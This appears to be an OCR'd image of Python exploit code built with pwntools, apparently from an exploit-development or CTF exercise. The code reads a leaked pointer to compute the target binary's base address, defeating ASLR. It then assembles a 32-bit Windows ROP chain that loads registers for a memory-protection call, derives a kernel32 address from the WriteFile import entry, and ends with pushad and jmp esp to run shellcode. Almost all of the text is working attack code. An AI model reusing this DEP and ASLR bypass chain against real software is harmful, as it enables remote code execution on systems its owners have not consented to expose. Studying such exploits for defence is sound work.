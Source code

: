 ```python
leak = p.recvline(keepends=False).split(b"|")[1:]
binary_leak = int(leak[1].decode(),16)
binary_base = binary_leak - 0x14120;
log.info("Binary base: "+hex(binary_base))

rop_gadgets = [
      # EBX
      # Blocked: None
      0x4CBFB + binary_base,  # pop eax; ret;
      0xa2bf44ce,             # put delta into eax (goal: 0x00000501 into ebx)
      0x7720E + binary_base,  # add eax,5D40C033; ret;
      0x3AE24 + binary_base,  # xchg eax, ebx; ret;

      # EDX
      # Blocked: EBX
      0x4CBD7 + binary_base,  # pop eax; ret;
      0xa2a7fdd6,             # put delta into eax (goal: 0x00000040 into edx)
      0x76EFF + binary_base,  # add eax, 0x5D58026A       
      0x1ABA5 + binary_base,  # xchg eax, edx; dec eax; add al, byte ptr [eax]; pop ecx; ret;
      0x41414141,             # dummy

      # ECX
      # Blocked: EBX, EDX
      0x72D31 + binary_base,  # pop ecx; ret;
      0xA635A + binary_base,  # &writable location

      # EDI
      # Blocked: EBX, EDX, ECX
      0x32301 + binary_base,  # pop edi; ret;
      0x774C7 + binary_base,  # ropnop

      # ESI
      # Blocked EBX, EDX, ECX, EDI
      0x24261 + binary_base,  # pop esi; ret;      
      0x14AF9 + binary_base,  # jmp eax (just stored, not executed)

      # EAX
      # Blocked EBX, EDX, ECX, EDI, ESI
      0x704F4 + binary_base,  # pop eax; ret;
      0x9015C + binary_base,  # IAT WriteFile
      0x2BB8E + binary_base,  # mov eax, dword ptr [eax] / dereference IAT to get kernel32 ptr
      0x113AB + binary_base,  # sub eax,1000 
      0x113AB + binary_base,  # sub eax,1000 
      0x113AB + binary_base,  # sub eax,1000 
      0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
      0x41414141,
      0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
      0x41414141,
      0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
      0x41414141,
      0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
      0x41414141,
      0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
      0x7D695 + binary_base,  # pop ebp dummy 

      0x752EC + binary_base,  # pushad
      0x11394 + binary_base,  # jmp esp
]

rop = b""
rop += p32(binary_base + 0x159d)*(32) # ropnop
for g in rop_gadgets:
      rop += p32(g)
```
